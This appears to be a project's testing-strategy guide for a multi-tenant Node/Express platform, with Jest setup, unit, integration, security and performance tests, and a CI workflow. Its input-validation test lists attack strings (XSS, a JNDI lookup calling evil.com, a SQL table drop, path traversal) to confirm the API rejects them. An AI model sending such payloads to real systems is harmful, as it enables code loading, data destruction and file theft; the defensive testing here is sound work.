

# 🧪 MWAP Testing Strategy

## 🎯 Overview

This document outlines the comprehensive testing strategy for the MWAP platform, covering testing types, frameworks, patterns, and best practices to ensure code quality, reliability, and maintainability.

## 🏗️ Testing Architecture

### **Testing Pyramid**


## 🔧 Testing Framework Setup

### **Backend Testing Stack**
```json
{
  "devDependencies": {
    "@types/jest": "^29.5.0",
    "@types/supertest": "^2.0.12",
    "jest": "^29.5.0",
    "supertest": "^6.3.3",
    "mongodb-memory-server": "^8.12.2",
    "ts-jest": "^29.1.0",
    "testcontainers": "^9.1.1"
  }
}
```

### **Jest Configuration**
```javascript
// jest.config.js
module.exports = {
  preset: 'ts-jest',
  testEnvironment: 'node',
  roots: ['<rootDir>/src'],
  testMatch: [
    '**/__tests__/**/*.ts',
    '**/?(*.)+(spec|test).ts'
  ],
  transform: {
    '^.+\\.ts$': 'ts-jest'
  },
  collectCoverageFrom: [
    'src/**/*.ts',
    '!src/**/*.d.ts',
    '!src/**/__tests__/**',
    '!src/**/index.ts'
  ],
  coverageDirectory: 'coverage',
  coverageReporters: ['text', 'lcov', 'html'],
  coverageThreshold: {
    global: {
      branches: 80,
      functions: 80,
      lines: 80,
      statements: 80
    }
  },
  setupFilesAfterEnv: ['<rootDir>/src/test/setup.ts'],
  testTimeout: 30000,
  maxWorkers: 4
};
```

### **Test Setup Configuration**
```typescript
// src/test/setup.ts
import { MongoMemoryServer } from 'mongodb-memory-server';
import mongoose from 'mongoose';
import { jest } from '@jest/globals';

let mongoServer: MongoMemoryServer;

beforeAll(async () => {
  // Start in-memory MongoDB
  mongoServer = await MongoMemoryServer.create();
  const mongoUri = mongoServer.getUri();
  
  await mongoose.connect(mongoUri);
  
  // Set test environment
  process.env.NODE_ENV = 'test';
  process.env.JWT_SECRET = 'test-secret-key';
  process.env.AUTH0_DOMAIN = 'test-tenant.auth0.com';
  process.env.AUTH0_AUDIENCE = 'https://api.mwap.test';
});

afterAll(async () => {
  await mongoose.disconnect();
  await mongoServer.stop();
});

beforeEach(async () => {
  // Clear all collections before each test
  const collections = mongoose.connection.collections;
  for (const key in collections) {
    await collections[key].deleteMany({});
  }
  
  // Clear all mocks
  jest.clearAllMocks();
});

// Global test utilities
global.testUtils = {
  createMockUser: (overrides = {}) => ({
    auth0Id: 'auth0|test123',
    email: 'test@example.com',
    name: 'Test User',
    tenantId: 'tenant123',
    role: 'user',
    ...overrides
  }),
  
  createMockTenant: (overrides = {}) => ({
    name: 'Test Tenant',
    domain: 'test.mwap.dev',
    ownerId: 'auth0|owner123',
    ...overrides
  }),
  
  createMockProject: (overrides = {}) => ({
    name: 'Test Project',
    description: 'Test project description',
    tenantId: 'tenant123',
    ownerId: 'auth0|owner123',
    ...overrides
  })
};
```

## 🧪 Unit Testing Patterns

### **Service Layer Testing**
```typescript
// src/features/users/__tests__/user.service.test.ts
import { UserService } from '../user.service';
import { User } from '../../../models/User';
import { AppError } from '../../../utils/AppError';

jest.mock('../../../models/User');

describe('UserService', () => {
  let userService: UserService;
  const mockUser = global.testUtils.createMockUser();

  beforeEach(() => {
    userService = new UserService();
  });

  describe('createUser', () => {
    it('should create a new user successfully', async () => {
      const userData = {
        auth0Id: 'auth0|new123',
        email: 'new@example.com',
        name: 'New User',
        tenantId: 'tenant123'
      };

      (User.findOne as jest.Mock).mockResolvedValue(null);
      (User.prototype.save as jest.Mock).mockResolvedValue({
        ...userData,
        _id: 'user123',
        createdAt: new Date()
      });

      const result = await userService.createUser(userData);

      expect(User.findOne).toHaveBeenCalledWith({ auth0Id: userData.auth0Id });
      expect(result).toMatchObject(userData);
      expect(result._id).toBeDefined();
    });

    it('should throw error if user already exists', async () => {
      const userData = {
        auth0Id: 'auth0|existing123',
        email: 'existing@example.com',
        name: 'Existing User',
        tenantId: 'tenant123'
      };

      (User.findOne as jest.Mock).mockResolvedValue(mockUser);

      await expect(userService.createUser(userData))
        .rejects
        .toThrow(AppError);

      expect(User.findOne).toHaveBeenCalledWith({ auth0Id: userData.auth0Id });
    });

    it('should validate required fields', async () => {
      const invalidUserData = {
        email: 'invalid@example.com'
        // Missing required fields
      };

      await expect(userService.createUser(invalidUserData as any))
        .rejects
        .toThrow(AppError);
    });
  });

  describe('getUserByAuth0Id', () => {
    it('should return user if found', async () => {
      (User.findOne as jest.Mock).mockResolvedValue(mockUser);

      const result = await userService.getUserByAuth0Id('auth0|test123');

      expect(User.findOne).toHaveBeenCalledWith({ auth0Id: 'auth0|test123' });
      expect(result).toEqual(mockUser);
    });

    it('should throw error if user not found', async () => {
      (User.findOne as jest.Mock).mockResolvedValue(null);

      await expect(userService.getUserByAuth0Id('auth0|nonexistent'))
        .rejects
        .toThrow(AppError);
    });
  });

  describe('updateUser', () => {
    it('should update user successfully', async () => {
      const updateData = { name: 'Updated Name' };
      const updatedUser = { ...mockUser, ...updateData };

      (User.findOneAndUpdate as jest.Mock).mockResolvedValue(updatedUser);

      const result = await userService.updateUser('auth0|test123', updateData);

      expect(User.findOneAndUpdate).toHaveBeenCalledWith(
        { auth0Id: 'auth0|test123' },
        updateData,
        { new: true, runValidators: true }
      );
      expect(result).toEqual(updatedUser);
    });

    it('should handle validation errors', async () => {
      const invalidUpdateData = { email: 'invalid-email' };

      (User.findOneAndUpdate as jest.Mock).mockRejectedValue(
        new Error('Validation failed')
      );

      await expect(userService.updateUser('auth0|test123', invalidUpdateData))
        .rejects
        .toThrow();
    });
  });
});
```

### **Controller Testing**
```typescript
// src/features/users/__tests__/user.controller.test.ts
import request from 'supertest';
import { app } from '../../../app';
import { UserService } from '../user.service';
import jwt from 'jsonwebtoken';

jest.mock('../user.service');

describe('User Controller', () => {
  const mockUserService = UserService as jest.MockedClass<typeof UserService>;
  let authToken: string;

  beforeEach(() => {
    // Create mock JWT token
    authToken = jwt.sign(
      {
        sub: 'auth0|test123',
        'https://mwap.local/tenant_id': 'tenant123',
        'https://mwap.local/role': 'user'
      },
      process.env.JWT_SECRET!
    );
  });

  describe('GET /api/v1/users/profile', () => {
    it('should return user profile', async () => {
      const mockUser = global.testUtils.createMockUser();
      mockUserService.prototype.getUserByAuth0Id.mockResolvedValue(mockUser);

      const response = await request(app)
        .get('/api/v1/users/profile')
        .set('Authorization', `Bearer ${authToken}`)
        .expect(200);

      expect(response.body).toMatchObject({
        success: true,
        data: mockUser
      });
    });

    it('should return 401 without auth token', async () => {
      const response = await request(app)
        .get('/api/v1/users/profile')
        .expect(401);

      expect(response.body).toMatchObject({
        success: false,
        error: {
          code: 'auth/unauthorized'
        }
      });
    });

    it('should handle user not found', async () => {
      mockUserService.prototype.getUserByAuth0Id.mockRejectedValue(
        new AppError('User not found', 404, 'USER_NOT_FOUND')
      );

      const response = await request(app)
        .get('/api/v1/users/profile')
        .set('Authorization', `Bearer ${authToken}`)
        .expect(404);

      expect(response.body).toMatchObject({
        success: false,
        error: {
          code: 'USER_NOT_FOUND'
        }
      });
    });
  });

  describe('PUT /api/v1/users/profile', () => {
    it('should update user profile', async () => {
      const updateData = { name: 'Updated Name' };
      const updatedUser = { ...global.testUtils.createMockUser(), ...updateData };
      
      mockUserService.prototype.updateUser.mockResolvedValue(updatedUser);

      const response = await request(app)
        .put('/api/v1/users/profile')
        .set('Authorization', `Bearer ${authToken}`)
        .send(updateData)
        .expect(200);

      expect(response.body).toMatchObject({
        success: true,
        data: updatedUser
      });
    });

    it('should validate input data', async () => {
      const invalidData = { email: 'invalid-email' };

      const response = await request(app)
        .put('/api/v1/users/profile')
        .set('Authorization', `Bearer ${authToken}`)
        .send(invalidData)
        .expect(400);

      expect(response.body).toMatchObject({
        success: false,
        error: {
          code: 'VALIDATION_ERROR'
        }
      });
    });
  });
});
```

## 🔗 Integration Testing

### **Database Integration Tests**
```typescript
// src/features/projects/__tests__/project.integration.test.ts
import mongoose from 'mongoose';
import { Project } from '../../../models/Project';
import { User } from '../../../models/User';
import { Tenant } from '../../../models/Tenant';
import { ProjectService } from '../project.service';

describe('Project Integration Tests', () => {
  let projectService: ProjectService;
  let testTenant: any;
  let testUser: any;

  beforeEach(async () => {
    projectService = new ProjectService();

    // Create test tenant
    testTenant = await new Tenant(global.testUtils.createMockTenant()).save();

    // Create test user
    testUser = await new User({
      ...global.testUtils.createMockUser(),
      tenantId: testTenant._id
    }).save();
  });

  describe('createProject', () => {
    it('should create project with proper relationships', async () => {
      const projectData = {
        name: 'Integration Test Project',
        description: 'Test project for integration testing',
        tenantId: testTenant._id.toString(),
        ownerId: testUser.auth0Id
      };

      const project = await projectService.createProject(projectData);

      expect(project).toBeDefined();
      expect(project.name).toBe(projectData.name);
      expect(project.tenantId.toString()).toBe(testTenant._id.toString());
      expect(project.ownerId).toBe(testUser.auth0Id);

      // Verify database state
      const savedProject = await Project.findById(project._id);
      expect(savedProject).toBeDefined();
      expect(savedProject!.name).toBe(projectData.name);
    });

    it('should enforce tenant isolation', async () => {
      // Create another tenant
      const otherTenant = await new Tenant({
        name: 'Other Tenant',
        domain: 'other.mwap.dev',
        ownerId: 'auth0|other123'
      }).save();

      const projectData = {
        name: 'Cross-tenant Project',
        description: 'Should not be accessible across tenants',
        tenantId: otherTenant._id.toString(),
        ownerId: testUser.auth0Id // User from different tenant
      };

      await expect(projectService.createProject(projectData))
        .rejects
        .toThrow('User does not belong to the specified tenant');
    });
  });

  describe('getProjectsByTenant', () => {
    beforeEach(async () => {
      // Create test projects
      await Project.create([
        {
          name: 'Project 1',
          description: 'First project',
          tenantId: testTenant._id,
          ownerId: testUser.auth0Id
        },
        {
          name: 'Project 2',
          description: 'Second project',
          tenantId: testTenant._id,
          ownerId: testUser.auth0Id
        }
      ]);
    });

    it('should return only projects for specified tenant', async () => {
      const projects = await projectService.getProjectsByTenant(
        testTenant._id.toString()
      );

      expect(projects).toHaveLength(2);
      projects.forEach(project => {
        expect(project.tenantId.toString()).toBe(testTenant._id.toString());
      });
    });

    it('should return empty array for tenant with no projects', async () => {
      const emptyTenant = await new Tenant({
        name: 'Empty Tenant',
        domain: 'empty.mwap.dev',
        ownerId: 'auth0|empty123'
      }).save();

      const projects = await projectService.getProjectsByTenant(
        emptyTenant._id.toString()
      );

      expect(projects).toHaveLength(0);
    });
  });
});
```

### **API Integration Tests**
```typescript
// src/__tests__/api.integration.test.ts
import request from 'supertest';
import { app } from '../app';
import { User } from '../models/User';
import { Tenant } from '../models/Tenant';
import { Project } from '../models/Project';
import jwt from 'jsonwebtoken';

describe('API Integration Tests', () => {
  let authToken: string;
  let testTenant: any;
  let testUser: any;

  beforeEach(async () => {
    // Create test tenant
    testTenant = await new Tenant(global.testUtils.createMockTenant()).save();

    // Create test user
    testUser = await new User({
      ...global.testUtils.createMockUser(),
      tenantId: testTenant._id
    }).save();

    // Create auth token
    authToken = jwt.sign(
      {
        sub: testUser.auth0Id,
        'https://mwap.local/tenant_id': testTenant._id.toString(),
        'https://mwap.local/role': 'user'
      },
      process.env.JWT_SECRET!
    );
  });

  describe('Project Management Flow', () => {
    it('should complete full project lifecycle', async () => {
      // 1. Create project
      const createResponse = await request(app)
        .post('/api/v1/projects')
        .set('Authorization', `Bearer ${authToken}`)
        .send({
          name: 'Integration Test Project',
          description: 'Full lifecycle test project'
        })
        .expect(201);

      const projectId = createResponse.body.data._id;
      expect(createResponse.body.data.name).toBe('Integration Test Project');

      // 2. Get project
      const getResponse = await request(app)
        .get(`/api/v1/projects/${projectId}`)
        .set('Authorization', `Bearer ${authToken}`)
        .expect(200);

      expect(getResponse.body.data._id).toBe(projectId);

      // 3. Update project
      const updateResponse = await request(app)
        .put(`/api/v1/projects/${projectId}`)
        .set('Authorization', `Bearer ${authToken}`)
        .send({
          name: 'Updated Project Name',
          description: 'Updated description'
        })
        .expect(200);

      expect(updateResponse.body.data.name).toBe('Updated Project Name');

      // 4. List projects
      const listResponse = await request(app)
        .get('/api/v1/projects')
        .set('Authorization', `Bearer ${authToken}`)
        .expect(200);

      expect(listResponse.body.data).toHaveLength(1);
      expect(listResponse.body.data[0]._id).toBe(projectId);

      // 5. Delete project
      await request(app)
        .delete(`/api/v1/projects/${projectId}`)
        .set('Authorization', `Bearer ${authToken}`)
        .expect(204);

      // 6. Verify deletion
      await request(app)
        .get(`/api/v1/projects/${projectId}`)
        .set('Authorization', `Bearer ${authToken}`)
        .expect(404);
    });

    it('should enforce tenant isolation in project operations', async () => {
      // Create project in test tenant
      const createResponse = await request(app)
        .post('/api/v1/projects')
        .set('Authorization', `Bearer ${authToken}`)
        .send({
          name: 'Tenant Isolated Project',
          description: 'Should only be accessible to same tenant'
        })
        .expect(201);

      const projectId = createResponse.body.data._id;

      // Create another tenant and user
      const otherTenant = await new Tenant({
        name: 'Other Tenant',
        domain: 'other.mwap.dev',
        ownerId: 'auth0|other123'
      }).save();

      const otherUser = await new User({
        auth0Id: 'auth0|other123',
        email: 'other@example.com',
        name: 'Other User',
        tenantId: otherTenant._id
      }).save();

      const otherAuthToken = jwt.sign(
        {
          sub: otherUser.auth0Id,
          'https://mwap.local/tenant_id': otherTenant._id.toString(),
          'https://mwap.local/role': 'user'
        },
        process.env.JWT_SECRET!
      );

      // Try to access project from other tenant
      await request(app)
        .get(`/api/v1/projects/${projectId}`)
        .set('Authorization', `Bearer ${otherAuthToken}`)
        .expect(404); // Should not find project from other tenant
    });
  });
});
```

## 🔒 Security Testing

### **Authentication Tests**
```typescript
// src/middleware/__tests__/auth.security.test.ts
import request from 'supertest';
import { app } from '../../app';
import jwt from 'jsonwebtoken';

describe('Authentication Security Tests', () => {
  describe('JWT Token Validation', () => {
    it('should reject expired tokens', async () => {
      const expiredToken = jwt.sign(
        {
          sub: 'auth0|test123',
          exp: Math.floor(Date.now() / 1000) - 3600 // Expired 1 hour ago
        },
        process.env.JWT_SECRET!
      );

      await request(app)
        .get('/api/v1/users/profile')
        .set('Authorization', `Bearer ${expiredToken}`)
        .expect(401);
    });

    it('should reject tokens with invalid signature', async () => {
      const invalidToken = jwt.sign(
        { sub: 'auth0|test123' },
        'wrong-secret'
      );

      await request(app)
        .get('/api/v1/users/profile')
        .set('Authorization', `Bearer ${invalidToken}`)
        .expect(401);
    });

    it('should reject malformed tokens', async () => {
      const malformedTokens = [
        'invalid.token.format',
        'Bearer invalid-token',
        'not-a-jwt-token',
        ''
      ];

      for (const token of malformedTokens) {
        await request(app)
          .get('/api/v1/users/profile')
          .set('Authorization', `Bearer ${token}`)
          .expect(401);
      }
    });

    it('should reject tokens without required claims', async () => {
      const tokenWithoutClaims = jwt.sign(
        { sub: 'auth0|test123' }, // Missing tenant_id and role
        process.env.JWT_SECRET!
      );

      await request(app)
        .get('/api/v1/projects')
        .set('Authorization', `Bearer ${tokenWithoutClaims}`)
        .expect(403); // Should be forbidden due to missing claims
    });
  });

  describe('Rate Limiting', () => {
    it('should enforce rate limits', async () => {
      const validToken = jwt.sign(
        {
          sub: 'auth0|test123',
          'https://mwap.local/tenant_id': 'tenant123',
          'https://mwap.local/role': 'user'
        },
        process.env.JWT_SECRET!
      );

      // Make requests up to the limit
      const promises = Array(100).fill(null).map(() =>
        request(app)
          .get('/api/v1/users/profile')
          .set('Authorization', `Bearer ${validToken}`)
      );

      const responses = await Promise.all(promises);
      
      // Some requests should succeed
      expect(responses.some(r => r.status === 200)).toBe(true);
      
      // Additional request should be rate limited
      const rateLimitedResponse = await request(app)
        .get('/api/v1/users/profile')
        .set('Authorization', `Bearer ${validToken}`);

      expect(rateLimitedResponse.status).toBe(429);
    });
  });

  describe('Input Validation', () => {
    it('should sanitize malicious input', async () => {
      const validToken = jwt.sign(
        {
          sub: 'auth0|test123',
          'https://mwap.local/tenant_id': 'tenant123',
          'https://mwap.local/role': 'user'
        },
        process.env.JWT_SECRET!
      );

      const maliciousInputs = [
        '<script>alert("xss")</script>',
        'javascript:alert("xss")',
        '${jndi:ldap://evil.com/a}',
        "'; DROP TABLE users; --",
        '../../../etc/passwd'
      ];

      for (const maliciousInput of maliciousInputs) {
        const response = await request(app)
          .put('/api/v1/users/profile')
          .set('Authorization', `Bearer ${validToken}`)
          .send({ name: maliciousInput });

        // Should either reject the input or sanitize it
        if (response.status === 200) {
          expect(response.body.data.name).not.toBe(maliciousInput);
        } else {
          expect(response.status).toBe(400);
        }
      }
    });
  });
});
```

## ⚡ Performance Testing

### **Load Testing Setup**
```typescript
// src/__tests__/performance.test.ts
import request from 'supertest';
import { app } from '../app';
import jwt from 'jsonwebtoken';

describe('Performance Tests', () => {
  let authToken: string;

  beforeAll(() => {
    authToken = jwt.sign(
      {
        sub: 'auth0|perf123',
        'https://mwap.local/tenant_id': 'tenant123',
        'https://mwap.local/role': 'user'
      },
      process.env.JWT_SECRET!
    );
  });

  describe('API Response Times', () => {
    it('should respond to user profile requests within 200ms', async () => {
      const startTime = Date.now();
      
      const response = await request(app)
        .get('/api/v1/users/profile')
        .set('Authorization', `Bearer ${authToken}`)
        .expect(200);

      const responseTime = Date.now() - startTime;
      expect(responseTime).toBeLessThan(200);
    });

    it('should handle concurrent requests efficiently', async () => {
      const concurrentRequests = 50;
      const startTime = Date.now();

      const promises = Array(concurrentRequests).fill(null).map(() =>
        request(app)
          .get('/api/v1/users/profile')
          .set('Authorization', `Bearer ${authToken}`)
      );

      const responses = await Promise.all(promises);
      const totalTime = Date.now() - startTime;

      // All requests should succeed
      responses.forEach(response => {
        expect(response.status).toBe(200);
      });

      // Average response time should be reasonable
      const averageResponseTime = totalTime / concurrentRequests;
      expect(averageResponseTime).toBeLessThan(500);
    });
  });

  describe('Database Performance', () => {
    it('should handle large dataset queries efficiently', async () => {
      // This would typically involve creating a large dataset
      // and testing query performance
      const startTime = Date.now();

      const response = await request(app)
        .get('/api/v1/projects?limit=1000')
        .set('Authorization', `Bearer ${authToken}`);

      const queryTime = Date.now() - startTime;
      expect(queryTime).toBeLessThan(1000); // 1 second max
    });
  });
});
```

## 🎯 Test Coverage and Quality

### **Coverage Configuration**
```javascript
// jest.config.js - Coverage settings
module.exports = {
  // ... other config
  collectCoverageFrom: [
    'src/**/*.ts',
    '!src/**/*.d.ts',
    '!src/**/__tests__/**',
    '!src/**/index.ts',
    '!src/test/**'
  ],
  coverageThreshold: {
    global: {
      branches: 80,
      functions: 80,
      lines: 80,
      statements: 80
    },
    // Specific thresholds for critical modules
    'src/middleware/': {
      branches: 90,
      functions: 90,
      lines: 90,
      statements: 90
    },
    'src/services/': {
      branches: 85,
      functions: 85,
      lines: 85,
      statements: 85
    }
  }
};
```

### **Test Quality Metrics**
```typescript
// scripts/test-quality-check.ts
import { execSync } from 'child_process';
import fs from 'fs';

interface TestMetrics {
  totalTests: number;
  passedTests: number;
  failedTests: number;
  coverage: {
    lines: number;
    functions: number;
    branches: number;
    statements: number;
  };
  performance: {
    averageTestTime: number;
    slowestTests: Array<{ name: string; time: number }>;
  };
}

class TestQualityChecker {
  async runQualityCheck(): Promise<TestMetrics> {
    console.log('🧪 Running test quality check...');

    // Run tests with coverage
    const testResult = execSync('npm test -- --coverage --json', { 
      encoding: 'utf8' 
    });
    
    const testData = JSON.parse(testResult);
    
    // Analyze test results
    const metrics: TestMetrics = {
      totalTests: testData.numTotalTests,
      passedTests: testData.numPassedTests,
      failedTests: testData.numFailedTests,
      coverage: {
        lines: testData.coverageMap.total.lines.pct,
        functions: testData.coverageMap.total.functions.pct,
        branches: testData.coverageMap.total.branches.pct,
        statements: testData.coverageMap.total.statements.pct
      },
      performance: {
        averageTestTime: this.calculateAverageTestTime(testData),
        slowestTests: this.findSlowestTests(testData)
      }
    };

    this.generateQualityReport(metrics);
    return metrics;
  }

  private calculateAverageTestTime(testData: any): number {
    const totalTime = testData.testResults.reduce(
      (sum: number, result: any) => sum + result.perfStats.runtime,
      0
    );
    return totalTime / testData.testResults.length;
  }

  private findSlowestTests(testData: any): Array<{ name: string; time: number }> {
    return testData.testResults
      .map((result: any) => ({
        name: result.testFilePath,
        time: result.perfStats.runtime
      }))
      .sort((a: any, b: any) => b.time - a.time)
      .slice(0, 5);
  }

  private generateQualityReport(metrics: TestMetrics): void {
    const report = `
# Test Quality Report

## Test Results
- Total Tests: ${metrics.totalTests}
- Passed: ${metrics.passedTests}
- Failed: ${metrics.failedTests}
- Success Rate: ${((metrics.passedTests / metrics.totalTests) * 100).toFixed(2)}%

## Coverage
- Lines: ${metrics.coverage.lines}%
- Functions: ${metrics.coverage.functions}%
- Branches: ${metrics.coverage.branches}%
- Statements: ${metrics.coverage.statements}%

## Performance
- Average Test Time: ${metrics.performance.averageTestTime.toFixed(2)}ms
- Slowest Tests:
${metrics.performance.slowestTests.map(test => 
  `  - ${test.name}: ${test.time.toFixed(2)}ms`
).join('\n')}

Generated: ${new Date().toISOString()}
    `;

    fs.writeFileSync('test-quality-report.md', report);
    console.log('📊 Test quality report generated: test-quality-report.md');
  }
}

// Run quality check
if (require.main === module) {
  new TestQualityChecker().runQualityCheck();
}
```

## 🚀 Continuous Integration

### **GitHub Actions Workflow**
```yaml
# .github/workflows/test.yml
name: Test Suite

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  test:
    runs-on: ubuntu-latest
    
    strategy:
      matrix:
        node-version: [18.x, 20.x]
    
    services:
      mongodb:
        image: mongo:6.0
        ports:
          - 27017:27017
        options: >-
          --health-cmd mongo
          --health-interval 10s
          --health-timeout 5s
          --health-retries 5

    steps:
    - uses: actions/checkout@v3
    
    - name: Use Node.js ${{ matrix.node-version }}
      uses: actions/setup-node@v3
      with:
        node-version: ${{ matrix.node-version }}
        cache: 'npm'
    
    - name: Install dependencies
      run: npm ci
    
    - name: Run linting
      run: npm run lint
    
    - name: Run type checking
      run: npm run type-check
    
    - name: Run unit tests
      run: npm run test:unit
      env:
        NODE_ENV: test
        MONGODB_URI: mongodb://localhost:27017/mwap_test
    
    - name: Run integration tests
      run: npm run test:integration
      env:
        NODE_ENV: test
        MONGODB_URI: mongodb://localhost:27017/mwap_test
    
    - name: Run security tests
      run: npm run test:security
    
    - name: Generate coverage report
      run: npm run test:coverage
    
    - name: Upload coverage to Codecov
      uses: codecov/codecov-action@v3
      with:
        file: ./coverage/lcov.info
        flags: unittests
        name: codecov-umbrella
    
    - name: Run performance tests
      run: npm run test:performance
    
    - name: Generate test quality report
      run: npm run test:quality-check
    
    - name: Archive test results
      uses: actions/upload-artifact@v3
      if: always()
      with:
        name: test-results-${{ matrix.node-version }}
        path: |
          coverage/
          test-results.xml
          test-quality-report.md
```

## 🔗 Related Documentation

- **[🏗️ Express Structure](../04-Backend/express-structure.md)** - Server architecture
- **[🛡️ Security Patterns](../04-Backend/security-patterns.md)** - Security testing patterns
- **[❌ Error Handling](../04-Backend/error-handling.md)** - Error testing strategies
- **[🖥️ Frontend Testing](../03-Frontend/testing-strategy.md)** - Frontend testing approaches
- **[📊 Performance Monitoring](./performance-monitoring.md)** - Performance testing and monitoring

---

*This comprehensive testing strategy ensures high code quality, reliability, and maintainability across the MWAP platform through systematic testing at all levels.*